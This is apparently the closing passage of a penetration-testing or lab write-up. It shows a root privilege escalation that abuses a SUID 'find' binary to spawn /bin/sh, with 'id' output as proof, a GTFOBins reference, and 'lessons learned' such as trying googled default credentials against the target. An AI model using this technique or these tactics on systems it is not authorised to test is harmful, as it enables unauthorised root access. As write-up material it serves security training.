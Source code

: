 #### Exploit and Proof:

```
find . -exec /bin/sh \\; -quit

id 
uid=106(postgres) gid=113(postgres) euid=0(root) groups=113(postgres),112(ssl-cert)
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0a3629f7-a339-4f3c-b97b-40351cbb3434/Untitled.png)

Reference:

[find | GTFOBins](https://gtfobins.github.io/gtfobins/find/)

#### Lessons Learned:

1. Even though the command may say that it requires authentication but still grants RCE, still try to run it against the system regardless.
2. GOOGLE DEFAULT CREDENTIALS AND USE THEM AGAINST THE SYSTEM — BASIC BUT HIGHLY EFFECTIVE.
3. Do manual enumeration first! Then move to an automated solution as a last effort!
